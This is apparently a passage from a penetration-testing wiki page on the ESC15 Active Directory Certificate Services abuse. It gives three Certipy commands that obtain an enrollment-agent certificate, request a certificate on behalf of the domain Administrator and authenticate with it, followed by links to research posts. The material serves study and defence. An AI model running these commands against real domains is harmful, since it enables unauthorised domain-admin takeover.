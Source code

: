 === UNIX-like

From UNIX-like systems, [this pull request on Certipy](https://github.com/ly4k/Certipy/pull/228) (Python) can be used to enumerate for, and conduct, the ESC15 scenario. 

```bash
# Request a certificate with "Certificate Request Agent" application policy
certipy req -u $USER@$DOMAIN --application-policies "1.3.6.1.4.1.311.20.2.1" -ca $CA_NAME -template $TEMPLATE -dc-ip $DC_IP

# Use the certificate in a ESC3 scenario to ask for a new certificate on behalf of another user
certipy req -u $USER@$DOMAIN -on-behalf-of $DOMAIN\\Administrator -template User -ca $CA_NAME -pfx cert.pfx -dc-ip $DC_IP

# Authenticate with the last certificate
certipy auth -pfx administrator.pfx -dc-ip $DC_ADDR
```

=== Windows

_At the time of writing, no solution exists to perform this attack from a Windows machine._

:::

## Resources

[https://posts.specterops.io/certified-pre-owned-d95910965cd2](https://posts.specterops.io/certified-pre-owned-d95910965cd2)

[https://research.ifcr.dk/certipy-2-0-bloodhound-new-escalations-shadow-credentials-golden-certificates-and-more-34d1c26f0dc6](https://research.ifcr.dk/certipy-2-0-bloodhound-new-escalations-shadow-credentials-golden-certificates-and-more-34d1c26f0dc6)

[https://research.ifcr.dk/certipy-4-0-esc9-esc10-bloodhound-gui-new-authentication-and-request-methods-and-more-7237d88061f7](https://research.ifcr.dk/certipy-4-0-esc9-esc10-bloodhound-gui-new-authentication-and-request-methods-and-more-7237d88061f7)

[https://posts.specterops.io/adcs-esc13-abuse-technique-fda4272fbd53](https://posts.specterops.io/adcs-esc13-abuse-technique-fda4272fbd53)

[https://posts.specterops.io/adcs-esc14-abuse-technique-333a004dc2b9](https://posts.specterops.io/adcs-esc14-abuse-technique-333a004dc2b9)

[https://trustedsec.com/blog/ekuwu-not-just-another-ad-cs-esc](https://trustedsec.com/blog/ekuwu-not-just-another-ad-cs-esc)